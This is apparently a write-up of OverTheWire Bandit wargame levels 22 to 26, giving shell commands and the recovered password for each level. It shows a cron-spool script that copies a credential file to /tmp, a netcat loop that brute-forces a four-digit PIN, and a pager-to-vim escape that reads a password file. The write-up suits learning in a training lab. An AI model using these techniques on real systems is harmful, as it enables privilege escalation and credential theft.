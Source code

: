 ### LEVEL 22 - 23
```shell
cd /etc/cron.d
cat cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
```
**PASSWORD:**  
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

### LEVEL 23 - 24
```shell
cd /etc/cron.d
cat cronjob_bandit24
cd /var/spool/bandit24
touch t.sh
nano t.sh
```
#### t.sh
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp_pass
```
```
cat /tmp/tmp_pass
```
**PASSWORD:**  
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

### LEVEL 24 - 25 
```shell
cd /tmp
touch t.sh
nano t.sh
```
#### t.sh
```
touch pin.txt
cp /dev/null pin.txt
for i in {0..9}{0..9}{0..9}{0..9}
do
	echo $(cat /etc/bandit_pass/bandit24) $i >> pin.txt
done
```
```
cat pin.txt | nc localhost 30002 > answer.txt
cat answer.txt
```

**PASSWORD:**  
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

### LEVEL 25 - 26 
```shell
ssh -i bandit26.sshkey bandit26@localhost
v # Open vim from more
:e /etc/bandit_pass/bandit26 # open password
```
**PASSWORD:**  
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
